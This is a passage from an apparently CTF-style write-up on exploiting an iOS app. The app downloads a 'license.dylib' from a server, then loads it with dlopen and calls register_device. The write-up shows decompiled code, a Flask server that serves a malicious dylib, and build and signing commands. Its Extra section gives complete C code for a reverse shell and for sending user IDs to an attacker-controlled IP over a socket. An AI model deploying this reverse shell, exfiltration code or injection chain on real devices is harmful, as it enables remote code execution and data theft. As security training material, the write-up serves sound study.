          if (local_5d8 == (code *)0x0) {
            UVar16.unknown = local_258;
            (*local_508)(local_258,write_to_file_url.unknown,local_270);
            local_618 = Foundation::URL::get_path(UVar16);
            (*local_500)(local_258,local_270);
            CVar7 = Swift::String::get_utf8CString(local_618);
            _$sSaySayxGqd__c7ElementQyd__RszSTRd__lufCs4Int8V_s15ContiguousArrayVyAEGTgmq5();
            local_608 = CVar7.unknown;
            Swift::Array<undefined>::$get__baseAddressIfContiguous();
            local_600 = CVar7.unknown;
            if ((CVar7.unknown != (undefined *)0x0) ||
               (bVar2 = (extension_Swift)::Swift::Collection::get_isEmpty(), bVar2)) {
              ns_file_manager = local_608;
              Swift::Array<undefined>::$get__owner();
              local_6f8 = ns_file_manager;
              local_6e0 = ns_file_manager;
              if (local_600 == (undefined *)0x0) {
                local_6f0 = (undefined *)0x0;
              }
              else {
                local_6e8 = local_600;
                local_6f0 = local_600;
              }
            }
            else {
              _swift_bridgeObjectRetain(local_608);
              ns_file_manager = local_608;
              _$ss15ContiguousArrayVyAByxGqd__c7ElementQyd__RszSTRd__lufCs4Int8V_s01_B6BufferVyAGGTgmq5
                        ();
              local_740.unknown = ns_file_manager;
              _swift_retain();
              _swift_release(local_740.unknown);
              _Var9.unknown = local_740.unknown;
              Swift::_ContiguousArrayBuffer::$get_owner(local_740);
              local_738 = _Var9.unknown;
              local_730 = (undefined *)
                          Swift::_ContiguousArrayBuffer::get_firstElementAddress(local_740);
              _swift_release(local_740.unknown);
              local_6f0 = local_730;
              local_6f8 = local_738;
            }
            local_708 = local_6f0;
            local_700 = local_6f8;
            if (local_6f0 == (undefined *)0x0) {
              local_d0 = 0xffffffffffffffff;
              local_718 = 0xffffffffffffffff;
              local_720 = 0xffffffffffffffff;
              local_1f8 = (undefined *)0xffffffffffffffff;
              _swift_bridgeObjectRelease(local_608);
            }
            else {
              local_710 = local_6f0;
              local_1f8 = local_6f0;
              _swift_bridgeObjectRelease(local_608);
            }
            ns_file_manager = local_1f8;
            _dlopen(local_1f8,2);
            local_728 = ns_file_manager;
            _swift_unknownObjectRelease(local_700);
            _swift_bridgeObjectRelease(local_618.bridgeObject);
            local_d8 = local_728;
            local_744 = (uint)(local_728 == (undefined *)0x0);
            if (local_744 != 0) {
              ns_file_manager = local_728;
              _dlerror();
              local_750 = ns_file_manager;
              if (ns_file_manager == (undefined *)0x0) {
                tVar21 = Swift::$_allocateUninitializedArray(1);
                local_788 = tVar21.1;
                local_780 = tVar21._0_8_;
                pcVar18 = (char *)0x1;
                str_obj = Swift::String::init("Unknown error occurred while loading library.",0x2d,1
                                             );
                local_788[1].bridgeObject = local_2d0;
                *local_788 = str_obj;
                pcVar11 = local_780;
                pcVar12 = local_2d8;
                Swift::$_finalizeUninitializedArray();
                SVar22.bridgeObject = pcVar12;
                SVar22.str = pcVar11;
                separator.bridgeObject = pvVar10;
                separator.str = pcVar18;
                local_760 = pcVar11;
                Swift::$print(SVar22,separator);
                SVar23.bridgeObject = pcVar12;
                SVar23.str = pcVar11;
                separator_00.bridgeObject = pvVar10;
                separator_00.str = pcVar18;
                local_778 = pcVar11;
                local_768 = pcVar12;
                Swift::$print(SVar23,separator_00);
                SVar24.bridgeObject = local_778;
                SVar24.str = local_760;
                separator_01.bridgeObject = pcVar11;
                separator_01.str = local_768;
                local_770 = pcVar12;
                Swift::$print(SVar24,separator_01);
                _swift_bridgeObjectRelease(local_770);
                _swift_bridgeObjectRelease(local_768);
                _swift_bridgeObjectRelease(local_760);
              }
              else {
                local_808 = 1;
                local_7f0.unknown = ns_file_manager;
                local_758 = ns_file_manager;
                local_180 = ns_file_manager;
                tVar21 = Swift::$_allocateUninitializedArray(1);
                local_7b8 = tVar21.1;
                local_7b0 = tVar21._0_8_;
                local_800 = 0x16;
                _Var13 = local_808;
                local_190 = (undefined *)Swift::DefaultStringInterpolation::init(0x16,local_808);
                local_7d0 = &local_190;
                local_7dc = 1;
                DVar19.unknown = (undefined *)0x1;
                local_188 = _Var13;
                str_obj = Swift::String::init("Something went wrong: ",(__int16)local_800,1);
                local_7f8 = str_obj.bridgeObject;
                Swift::DefaultStringInterpolation::appendLiteral(str_obj,DVar19);
                _swift_bridgeObjectRelease(local_7f8);
                local_1a0 = Swift::String::init(local_7f0);
                local_7e8 = &local_1a0;
                ns_file_manager =
                     PTR_$$protocol_witness_table_for_Swift.String_:_Swift.TextOutputStreamable_in_Swift_100024720
                ;
                Swift::DefaultStringInterpolation::$appendInterpolation
                          (local_7e8,local_2d0,
                           PTR_$$protocol_witness_table_for_Swift.String_:_Swift.CustomStringConvertible_in_Swift_100024620
                          );
                $$outlined_destroy_of_Swift.String(local_7e8);
                DVar19.unknown = (undefined *)(ulong)(local_7dc & 1);
                str_obj = Swift::String::init("",0,(__int8)(local_7dc & 1));
                local_7d8 = str_obj.bridgeObject;
                Swift::DefaultStringInterpolation::appendLiteral(str_obj,DVar19);
                _swift_bridgeObjectRelease(local_7d8);
                local_7c0.unknown = local_190;
                local_7c8 = local_188;
                _swift_bridgeObjectRetain();
                $$outlined_destroy_of_Swift.DefaultStringInterpolation(local_7d0);
                str_obj = Swift::String::init(local_7c0);
                local_7b8[1].bridgeObject = local_2d0;
                *local_7b8 = str_obj;
                pcVar11 = local_7b0;
                pcVar12 = local_2d8;
                Swift::$_finalizeUninitializedArray();
                SVar25.bridgeObject = pcVar12;
                SVar25.str = pcVar11;
                separator_02.bridgeObject = ns_file_manager;
                separator_02.str = DVar19.unknown;
                local_790 = pcVar11;
                Swift::$print(SVar25,separator_02);
                SVar26.bridgeObject = pcVar12;
                SVar26.str = pcVar11;
                separator_03.bridgeObject = ns_file_manager;
                separator_03.str = DVar19.unknown;
                local_7a8 = pcVar11;
                local_798 = pcVar12;
                Swift::$print(SVar26,separator_03);
                SVar27.bridgeObject = local_7a8;
                SVar27.str = local_790;
                separator_04.bridgeObject = pcVar11;
                separator_04.str = local_798;
                local_7a0 = pcVar12;
                Swift::$print(SVar27,separator_04);
                _swift_bridgeObjectRelease(local_7a0);
                _swift_bridgeObjectRelease(local_798);
                _swift_bridgeObjectRelease(local_790);
              }
            }
            pUVar15 = (UIViewController *)0x1;
            local_818 = Swift::String::init("Failed to load the license file",0x1f,1);
            Runtime::$showToast(local_818,param_1,pUVar15);
            Runtime::showToast(local_818,param_1,local_280);
            _swift_bridgeObjectRelease(local_818.bridgeObject);
          }
          else {
            local_5e0 = local_5d8;
            local_638 = local_5d8;
            local_1a8 = local_5d8;
            str_obj = Swift::String::init("register_device",0xf,1);
            local_630 = str_obj.bridgeObject;
            CVar7 = Swift::String::get_utf8CString(str_obj);
            _$sSaySayxGqd__c7ElementQyd__RszSTRd__lufCs4Int8V_s15ContiguousArrayVyAEGTgmq5();
            local_628 = CVar7.unknown;
            Swift::Array<undefined>::$get__baseAddressIfContiguous();
            local_620 = CVar7.unknown;
            if ((CVar7.unknown != (undefined *)0x0) ||
               (bVar2 = (extension_Swift)::Swift::Collection::get_isEmpty(), bVar2)) {
              ns_file_manager = local_628;
              Swift::Array<undefined>::$get__owner();
              local_658 = ns_file_manager;
              local_640 = ns_file_manager;
              if (local_620 == (undefined *)0x0) {
                local_650 = (undefined *)0x0;
              }
              else {
                local_648 = local_620;
                local_650 = local_620;
              }
            }
            else {
              _swift_bridgeObjectRetain(local_628);
              ns_file_manager = local_628;
              _$ss15ContiguousArrayVyAByxGqd__c7ElementQyd__RszSTRd__lufCs4Int8V_s01_B6BufferVyAGGTgmq5
                        ();
              local_6a0.unknown = ns_file_manager;
              _swift_retain();
              _swift_release(local_6a0.unknown);
              _Var9.unknown = local_6a0.unknown;
              Swift::_ContiguousArrayBuffer::$get_owner(local_6a0);
              local_698 = _Var9.unknown;
              local_690 = (undefined *)
                          Swift::_ContiguousArrayBuffer::get_firstElementAddress(local_6a0);
              _swift_release(local_6a0.unknown);
              local_650 = local_690;
              local_658 = local_698;
            }
            local_668 = local_650;
            local_660 = local_658;
            if (local_650 == (undefined *)0x0) {
              local_e0 = 0xffffffffffffffff;
              local_678 = 0xffffffffffffffff;
              local_680 = 0xffffffffffffffff;
              local_200 = (undefined *)0xffffffffffffffff;
              _swift_bridgeObjectRelease(local_628);
            }
            else {
              local_670 = local_650;
              local_200 = local_650;
              _swift_bridgeObjectRelease(local_628);
            }
            pcVar8 = local_638;
            _dlsym(local_638,local_200);
            local_688 = pcVar8;
            _swift_unknownObjectRelease(local_660);
            _swift_bridgeObjectRelease(local_630);
            local_1b0 = local_688;
            local_e8 = local_688;
            local_6a4 = (uint)(local_688 != (code *)0x0);
            if (local_6a4 == 0) {
              pUVar15 = (UIViewController *)0x1;
              local_6d8 = Swift::String::init("Function register_device not found.",0x23,1);
              Runtime::$showToast(local_6d8,param_1,pUVar15);
              Runtime::showToast(local_6d8,param_1,local_280);
              _swift_bridgeObjectRelease(local_6d8.bridgeObject);
            }
            else {
              local_f0 = local_688;
              local_1b8 = local_688;
              pcVar8 = local_688;
              (*local_688)();
              if (((ulong)pcVar8 & 1) == 0) {
                pUVar15 = (UIViewController *)0x1;
                local_6c8 = Swift::String::init("Device registration failed.",0x1b,1);
                Runtime::$showToast(local_6c8,param_1,pUVar15);
                Runtime::showToast(local_6c8,param_1,local_280);
                _swift_bridgeObjectRelease(local_6c8.bridgeObject);
              }
              else {
                pUVar15 = (UIViewController *)0x1;
                local_6b8 = Swift::String::init("Upgraded to Pro. Please wait for a decade before we add pro features"
                                                ,0x44,1);
                Runtime::$showToast(local_6b8,param_1,pUVar15);
                Runtime::showToast(local_6b8,param_1,local_280);
                _swift_bridgeObjectRelease(local_6b8.bridgeObject);
              }
            }
          }
          _objc_release(local_4f0);
        }
        (*local_500)(write_to_file_url.unknown,local_270);
        (*local_500)(local_210,local_270);
        outlined_consume((_Representation)(__int8)local_4c0.unknown);
      }
      _objc_release(local_3c0);
      goto LAB_10000b784;
    }
    _objc_release(local_3c0);
  }
  pUVar15 = (UIViewController *)0x1;
  local_828 = Swift::String::init("Unexpected response from server (bad download path)",0x33,1);
  Runtime::$showToast(local_828,param_1,pUVar15);
  Runtime::showToast(local_828,param_1,local_280);
  _swift_bridgeObjectRelease(local_828.bridgeObject);
LAB_10000b784:
  if (*(long *)PTR____stack_chk_guard_100024260 != local_38) {
                    /* WARNING: Subroutine does not return */
    ___stack_chk_fail();
  }
  return;
}

```

This code expects some binary content to be returned in response with mime type `application/octet-stream`:



The response content is then saved into a file named `license.dylib`; before writing the file to disk, the destination directory is created using the `NSFileManager`:



Then the file is written to the destination path:



Afterwards, the download `dylib` is opened using `_dlopen`:



And then the function `register_device` is attempted to be invoked from the loaded `dylib` using the function `_dlsym`:






If the `register_device` function is not found in the loaded `dylib`, the error "Function register_device not found" is raised. Otherwise, if the `register_device` function is correctly invoked and returns the value `1`, the pro subscription gets activated *but sadly the pro features are not implemented yet* - what a shame!

## Solution

Having the capability to arbitrarily load dynamic libraries and execute the function `register_device`, i've wrote the following simple C code to test whether it was possibile to achieve code execution:

```c
#include <stdio.h>

int register_device(void) {
    printf("Hello from dylib!\n");
    return 1;
}
```

Then I've compiled the code as follows:

```
clang -dynamiclib -o license.dylib License.c 
```


And implemented the `/download` endpoint in the `Flask` application:



Intercepting the request, I've confirmed that application downloads the `dylib`:



And finally... the `dylib` failed to be loaded - *sad*:


This was due to the fact that I didn't compiled the code for iOS but for MacOS, as confirmed by the following command:


```shell
otool -l license.dylib | grep -A3 LC_BUILD_VERSION
```




Platform `1` means that the binary is targeting MacOS, whilst it should be `2` for iOS.

In order to cross-compile the binary for iOS, I ran the following command:

```shell
clang -arch arm64 -miphoneos-version-min=15.0 -isysroot "$(xcrun --sdk iphoneos --show-sdk-path)" -dynamiclib -install_name @rpath/license.dylib License.c -o license.dylib
```

Moreover, the binary is expected to be signed. Therefore I signed it as follows:

```shell
ldid -S license.dylib
```

Then, I confirmed that the target platform is correct:



After re-opening the deeplink, the `register_function` was successfully executed and the pro subscription activated!


Following the complete `Flask` application code:

```python
from flask import Flask, send_from_directory
import uuid
import os

app = Flask(__name__)

@app.get("/mhl.pages.dev/runtime/health")
def health():
    print("[+] Healthcheck")
    return '{"status":"healthy"}', 200, {'Content-Type': 'application/json'}


@app.post("/mhl.pages.dev/runtime/activate")
def activate():
    print("[+] Activated")
    token = str(uuid.uuid4())
    return '{"token":"' + token + '"}', 200, {'Content-Type': 'application/json'}

@app.get("/mhl.pages.dev/runtime/download")
def download():
    print("[+] Download")
    root_dir = os.path.dirname(os.getcwd())
    return send_from_directory(os.path.join(root_dir, "www"), "license.dylib")


```

## Extra

After completing the challenge, I've tried opening a reverse shell using the following C code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <arpa/inet.h>
#include <sys/socket.h>

int register_device(void) {
    const char* ip = "192.168.1.11"; 
    char* shell = "/var/jb/usr/bin/bash"; 
    int port = 8090; 

    int sock = socket(AF_INET, SOCK_STREAM, 0);
    if (sock == -1) {
        exit(1);
    }

    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(port);
    addr.sin_addr.s_addr = inet_addr(ip);

    if (connect(sock, (struct sockaddr *)&addr, sizeof(addr)) == -1) {
        close(sock);
        exit(1);
    }

    dup2(sock, 0);
    dup2(sock, 1);
    dup2(sock, 2);

    char *args[] = {shell, "-i", NULL};

    if (execve(shell, args, NULL) == -1) {
        perror("execve");
    }

    close(sock);
    return 1;
}
```

However, even though the socket connection was actually established, the `execve` execution was not allowed:



**This is probably due to the fact the that sandbox policy is not disabled by the jailbreak on my iPhone - I need to investigate further.**

However, i still could execute arbitrary C code, such as the following, retrieving current iOS user UID, GID, EUID and EGID and sending via socket to the attacker-controlled server:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <arpa/inet.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <spawn.h>

int register_device(void) {
    const char* ip = "192.168.1.11"; 
    int port = 8090; 

    int sock = socket(AF_INET, SOCK_STREAM, 0);
    if (sock == -1) {
        exit(1);
    }

    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(port);
    addr.sin_addr.s_addr = inet_addr(ip);

    if (connect(sock, (struct sockaddr *)&addr, sizeof(addr)) == -1) {
        close(sock);
        exit(1);
    }

    dup2(sock, 0);
    dup2(sock, 1);
    dup2(sock, 2);

    uid_t uid = getuid();
    gid_t gid = getgid();

    uid_t euid = geteuid();
    gid_t egid = getegid();
    
    char output[256];
    sprintf(output, "UID: %d - GID: %d - EUID: %d - EGID: %d\n", uid, gid, euid, egid);
    
    write(sock,output,strlen(output));

    close(sock);
    return 1;
}
```

